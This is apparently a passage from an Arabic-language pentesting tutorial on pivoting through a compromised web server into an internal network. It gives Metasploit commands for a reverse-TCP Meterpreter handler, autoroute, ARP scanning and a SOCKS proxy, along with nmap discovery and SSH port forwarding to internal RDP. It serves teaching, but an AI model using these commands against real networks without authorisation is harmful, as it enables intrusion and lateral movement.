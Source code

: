 #### **استخدام Meterpreter (Metasploit):**
- **بعد استغلال السيرفر:**
  ```
  use exploit/multi/handler
  set PAYLOAD windows/meterpreter/reverse_tcp
  set LHOST <your-ip>
  set LPORT 4444
  run
  ```
- **في الـ Meterpreter:**
  ```
  run autoroute -s 192.168.1.0/24
  ```
  - بيضيف الشبكة الداخلية.
  ```
  run arp_scanner -r 192.168.1.0/24
  ```
  - بيكتشف الأجهزة.

- **ليه بيحصل الضعف؟**
  - الشبكة الداخلية بتكون متصلة بدون حماية كافية (Firewall ضعيف).
  - السيرفر المخترق عنده وصول لأجهزة تانية.

**خلاصة للطفل:** زي لما تستخدم باب سري في بيت اللعب 🚪، وتدخل غرف تانية مليانة لعب وحلويات من غير ما حد يشوفك! 🍭🎲

---

### **4. إزاي تستغل ده في الـ Pentesting؟ ⚒️**
في الـ Pentesting، بعد ما تخترق سيرفر ويب، بتستخدمه كـ "نقطة ارتكاز" عشان تكتشف الشبكة الداخلية، تحاول تخترق أجهزة تانية، وتثبت إن فيه ضعف كبير.

#### **الجانب العملي:**
- **فحص الشبكة:**
  ```bash
  nmap -sn 192.168.1.0/24
  ```
  - بيكتشف الأجهزة الشغالة.

- **Port Forwarding:**
  - في السيرفر:
    ```bash
    ssh -L 1234:192.168.1.11:3389 user@192.168.1.10
    ```
  - في جهازك:
    ```bash
    rdesktop 127.0.0.1:1234
    ```
    - لو 3389 (RDP) مفتوح، هتوصل للجهاز الداخلي.

- **Meterpreter Pivoting:**
  ```
  background
  use auxiliary/server/socks_proxy
  set SRVPORT 1080
  run
  route add 192.168.1.0 255.255.255.0 1
  ```
  - بتخلي Metasploit يوصل للشبكة الداخلية.
